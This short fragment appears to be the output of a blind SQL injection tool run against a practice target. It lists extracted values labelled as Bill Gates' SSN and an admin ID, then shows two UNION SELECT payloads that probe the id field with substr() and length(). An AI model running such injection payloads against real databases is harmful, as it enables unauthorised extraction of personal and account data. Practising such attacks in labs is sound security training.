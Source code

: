 Bill Gates' SSN:

113

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!